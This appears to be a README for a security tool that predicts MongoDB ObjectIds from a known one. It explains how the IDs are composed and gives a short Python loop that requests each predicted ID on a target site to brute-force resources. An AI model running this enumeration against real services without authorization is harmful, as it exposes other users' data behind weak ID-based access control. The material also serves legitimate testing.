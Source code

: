 ## Mongo ObjectId Introduction

[Mongo ObjectId](https://docs.mongodb.com/manual/reference/method/ObjectId/)s are generated
in a predictable manner, the 12-byte ObjectId value consists of:

 * a 4-byte value representing the seconds since the Unix epoch,
 * a 3-byte machine identifier,
 * a 2-byte process id, and
 * a 3-byte counter, starting with a random value.

Some web and REST APIs use these as resource IDs, and because developers believe they
are randomly generated or difficult to guess, they are also frequently used as (a very
weak) authorization layer: if you know the ObjectId then you have to be the right
user.

## Predicting Mongo ObjectIds

This tool will predict Mongo ObjectIds given a valid initial value.

```
./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
...
5ae9bac82c144b9def01ec39
...
5ae9bacf2c144b9def01ec3a
...
5ae9bada2c144b9def01ec3b
```

Usually you'll use this tool together with Burp, or your own custom script in
order to brute-force a resource:

```python
import requests

from mongo_objectid_predict import predict

for objectid in predict('5ae9b90a2c144b9def01ec37'):
    response = requests.get('http://target.com/resource/%s' % objectid)
    process_response(response)
```
